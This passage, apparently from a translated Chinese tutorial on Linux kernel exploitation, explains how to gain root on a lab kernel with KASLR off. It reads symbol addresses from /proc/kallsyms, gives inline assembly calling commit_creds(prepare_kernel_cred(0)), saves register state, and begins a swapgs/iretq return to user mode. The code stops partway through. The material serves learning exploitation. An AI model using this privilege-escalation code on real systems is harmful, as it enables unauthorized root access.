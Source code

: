 最后一个问题是我们要在函数中写什么来得到根权限。

##### 获得根权限
再次提醒一下，内核利用的目标不是通过`system("/bin/sh")`或`execve("/bin/sh"， NULL, NULL)`弹出shell，而是在系统中获得根权限，然后弹出根shell。通常，最常见的方法是使用两个函数`commit_creds()`和`prepare_kernel_cred()`，这两个函数就在内核空间代码中。我们需要做的是像这样调用这两个函数：
```c
commit_creds(prepare_kernel_cred(0))
```
由于`KASLR`被禁用，这些函数所在的地址在每次引导中都是不变的。因此，我们可以通过使用这些shell命令读取`/proc/kallsyms`文件轻松获得地址：
```bash
cat /proc/kallsyms | grep commit_creds
-> ffffffff814c6410 T commit_creds
cat /proc/kallsyms | grep prepare_kernel_cred
-> ffffffff814c67f0 T prepare_kernel_cred
```
得到根权限的代码可以这样写（你可以用很多不同的方式来写。它只是简单地连续调用两个函数，使用一个函数的返回值作为另一个函数的参数。我在一篇文章中看到并复制了它）：
```c
void escalate_privs(void){
    __asm__(
        ".intel_syntax noprefix;"
        "movabs rax, 0xffffffff814c67f0;" //prepare_kernel_cred
        "xor rdi, rdi;"
	    "call rax; mov rdi, rax;"
	    "movabs rax, 0xffffffff814c6410;" //commit_creds
	    "call rax;"
        ...
        ".att_syntax;"
    );
}
```
>注意我写代码使用了一种非常干净的方式，在C代码中使用英特尔语法编写内联汇编。

##### 返回用户级
在当前状态下，如果你只是返回用户级代码来弹出shell，那么你会失望的。原因是在运行上述代码之后，我们仍然在内核模式下执行。为了打开根shell，我们必须返回用户模式。
基本上，如果内核正常运行，它将使用以下指令中的一条返回用户级：`sysretq`或`iretq`（x86_64）。大多数人用`iretq`，据我所知这是因为`sysretq`使用更复杂。`iretq`指令只需要用5个用户级寄存器值按以下顺序设置栈：`RIP|CS|RFLAGS|SP|SS`。
进程为这些寄存器跟踪两组不同的值，一组用于用户模式，另一组用于内核模式。因此，在内核模式下完成执行后，它必须恢复到这些寄存器的用户模式值。我们可以简单地设置`RIP`为弹出shell的函数的地址。如果我们随机设置其他寄存器，进程可能不会继续按预期执行。为了解决这个问题，人们想到了一个非常聪明的方法：在进入内核模式之前保存这些寄存器的状态，在获得根权限后重新加载它们。保存状态的函数如下：
```c
void save_state(){
    __asm__(
        ".intel_syntax noprefix;"
        "mov user_cs, cs;"
        "mov user_ss, ss;"
        "mov user_sp, rsp;"
        "pushf;"
        "pop user_rflags;"
        ".att_syntax;"
    );
    puts("[*] Saved state");
}
```
还有一件事，x86_64上还有一个叫做`swapgs`的指令必须在`iretq`之前被调用。这条指令的目的是在内核模式和用户模式之间交换`GS`寄存器。有了所有这些信息，我们可以完成获得root权限的代码，之后返回用户模式：
```c
unsigned long user_rip = (unsigned long)get_shell;

void escalate_privs(void){
    __asm__(
        ".intel_syntax noprefix;"
        "movabs rax, 0xffffffff814c67f0;" //prepare_kernel_cred
        "xor rdi, rdi;"
	    "call rax; mov rdi, rax;"
	    "movabs rax, 0xffffffff814c6410;" //commit_creds
	    "call rax;"
        "swapgs;"
```